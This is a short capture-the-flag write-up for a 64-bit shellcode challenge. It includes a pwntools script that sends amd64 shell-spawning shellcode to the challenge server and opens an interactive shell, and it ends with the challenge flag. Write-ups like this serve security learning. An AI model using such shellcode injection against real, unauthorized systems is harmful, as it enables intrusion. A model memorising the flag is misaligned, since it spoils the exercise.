 # I got 64 shells in my back
![image](https://user-images.githubusercontent.com/34862954/164888498-fcef2907-8b64-4c60-98f9-1fb37852b747.png)

## Approach
This is similar to the previous ques (I got 32 shells).

You just have to change the architecture to amd64.

```python
from pwn import *
conn = remote('wannahack.copsiitbhu.co.in',2440)
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()
conn.recvline()


payload = (shellcraft.amd64.sh())
payload = asm(payload, arch='amd64')

conn.send(payload)
print(conn.recvline())
print(conn.recvline())
conn.interactive()
```

![image](https://user-images.githubusercontent.com/34862954/164888996-577d1068-2f78-43fd-8d5b-7e74962888f3.png)<br>

In this way, you get the flag.

Flag: `wannahack{5h311c0d3_0n_64b1t_1s_@150_50_01d_:(}`

